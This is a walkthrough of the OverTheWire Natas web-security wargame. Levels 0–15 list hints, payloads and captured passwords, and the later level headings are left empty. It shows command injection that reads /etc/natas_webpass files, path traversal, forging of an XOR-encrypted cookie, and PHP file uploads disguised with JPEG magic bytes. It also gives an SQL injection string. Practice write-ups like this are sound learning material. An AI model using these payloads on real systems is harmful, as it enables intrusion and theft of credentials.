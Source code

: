 # [The Natas wargame](https://overthewire.org/wargames/natas/)
url: [Natas](http://natas0.natas.labs.overthewire.org)
Username: natas0
Password: natas0

### Level 0 → Level 1
Check in the comments
**password:**
gtVrDuiDfck831PqWsLEZy5gyDz1clto

### Level 1 → Level 2
F12...
**password:**
ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

### Level 2 → Level 3
Add /files to url
**password:**
sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

### Level 3 → Level 4
See /robots.txt file
-> /s3cr3t
**password:**
Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

### Level 4 → Level 5
Reffer from natas5
**password:**
iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

### Level 5 → Level 6
Change loggedin cookie to 1
**password:**
aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

### Level 6 → Level 7
Add /includes/secret.inc to url
-> Insert FOEIUWGHFEEUHOFUOIU in textbox
-> 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
**password:**
7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

### Level 7 → Level 8
page=/etc/natas_webpass/natas8
**password:**
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

### Level 8 → LeveL 9
Using [PHP sandbox](https://sandbox.onlinephpfunctions.com/)
```php
echo base64_decode(strrev(hex2bin('3d3d516343746d4d6d6c315669563362'))); 
```  
-> oubWYf2kBq
-> Insert to textbox
-> W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
**password:**  
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

### Level 9 → Level 10
Insert ';cat /etc/natas_webpass/natas10'
**password:**
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

### Level 10 → Level 11
Insert '.* /etc/natas_webpass/natas11 #'
**password:**
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

### Level 11 → Level 12
Get the xor encoder key using:
```php
 $text = json_encode(array("showpassword"=>"no", "bgcolor"=>"#ffffff"));
 $encText = base64_decode('ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=');
 
 $outText = '';
 for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $encText[$i % strlen($encText)];
 }
 print $outText;
```
-> key is 'qw8J'
Now get the good cookie:
```php
 function xor_encrypt($in) {
    $key = 'qw8J';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
 }
 $d = array("showpassword"=>"yes", "bgcolor"=>"#ffffff");
 print base64_encode(xor_encrypt(json_encode($d)));
```
-> ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
set 'data' cookie to this cookie
**password:**
EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

### Level 12 → Level 13  
Create php file (a.php for example):
```php
<?php
  echo file_get_contents('/etc/natas_webpass/natas13');
?>
```
change the filename value html tag to 'a.php'
-> <input type="hidden" name="filename" value="a.php">
Upload file and click on the link
**password:**  
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
  
### Level 13 → Level 14  
Create file start with JPEG magic number('FF D8 FF EE')
```shell
echo -e "\xff\xd8\xff\xe0" > a
```
Create php file('b') similar to level 12:
```php
<?php
  echo file_get_contents('/etc/natas_webpass/natas14');
?>
```
Merge the files
```shell
cat a b > c.php
```
Upload like previous level and click link
**password:**  
Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1  

### Level 14 → Level 15
Simple SQL injection
Username: natas15
Password: " OR ""="
**password:**
AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J  
  
### Level 15 → Level 16
Basic Blind SQL injection, 64 char max password, we need to do 2 thing to get the password:  
1. Get the character set (to reduce the complexity of the brute force)
2. Brute force  
Use [this](https://gist.github.com/bom2013/d3a3e83d165209de8164a41c0b74703a) python script to do it
**password:**  
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh  

### Level 16 → Level 17

**password:**

### Level 17 → Level 18

**password:**

### Level 18 → Level 19

**password:**

### Level 19 → Level 20

**password:**

### Level 20 → Level 21

**password:**

### Level 21 → Level 22

**password:**

### Level 22 → Level 23

**password:**

### Level 23 → Level 24

**password:**

### Level 24 → Level 25

**password:**

### Level 25 → Level 26

**password:**

### Level 26 → Level 27

**password:**

### Level 27 → Level 28

**password:**

### Level 28 → Level 29

**password:**

### Level 29 → Level 30

**password:**

### Level 30 → Level 31

**password:**

### Level 31 → Level 32

**password:**

### Level 32 → Level 33

**password:**

### Level 33 → Level 34

**password:**

